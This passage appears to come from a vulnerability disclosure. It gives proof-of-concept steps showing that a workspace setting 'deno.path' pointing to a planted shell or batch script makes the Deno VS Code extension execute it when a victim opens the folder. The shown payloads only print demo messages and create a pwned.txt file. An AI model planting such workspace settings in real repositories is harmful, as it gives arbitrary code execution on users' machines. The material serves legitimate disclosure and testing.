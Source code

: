             # Optionally, perform malicious actions here, e.g., create a file
            touch /tmp/pwned.txt
            ```
            (For Windows `malicious-deno.bat`):
            ```bat
            @echo off
            echo [VULNERABILITY-DEMO] Malicious Deno Executable Executed!
            echo [VULNERABILITY-DEMO] You are VULNERABLE!
            REM Optionally, perform malicious actions here, e.g., create a file
            type nul > C:\pwned.txt
            ```
        - Make `malicious-deno.sh` executable: `chmod +x malicious-deno.sh`
        - Place this script in the root of `malicious-deno-workspace`.

    2. **Create Workspace Settings:**
        - Inside `malicious-deno-workspace`, create a directory named `.vscode`.
        - Inside `.vscode`, create a file named `settings.json` with the following content:
            ```json
            {
                "deno.enable": true,
                "deno.path": "./malicious-deno.sh" // or ".\\malicious-deno.bat" for Windows
            }
            ```

    3. **Create a Dummy Deno File:**
        - In `malicious-deno-workspace`, create a file named `test.ts` (or any `.ts` or `.js` file) with any content.

    4. **Open Workspace in VSCode:**
        - Open the `malicious-deno-workspace` folder in Visual Studio Code with the "Deno for Visual Studio Code" extension installed and enabled.

    5. **Trigger Extension Usage:**
        - Open the `test.ts` file. This should trigger the Deno extension to activate and attempt to use the Deno CLI for language features.
        - Alternatively, you can try to use any Deno extension feature like "Deno: Cache", "Deno: Lint", "Deno: Test", or configure a Deno task.

    6. **Verify Vulnerability:**
        - Observe the output. You should see the messages "[VULNERABILITY-DEMO] Malicious Deno Executable Executed!" and "[VULNERABILITY-DEMO] You are VULNERABLE!" in the VSCode Output panel (usually under "Deno Language Server" output).
        - Check if the `/tmp/pwned.txt` file (or `C:\pwned.txt` on Windows) was created, confirming arbitrary code execution.

This test case demonstrates that by setting a malicious path in the workspace settings, an attacker can achieve arbitrary code execution when a victim opens the workspace, confirming the vulnerability.
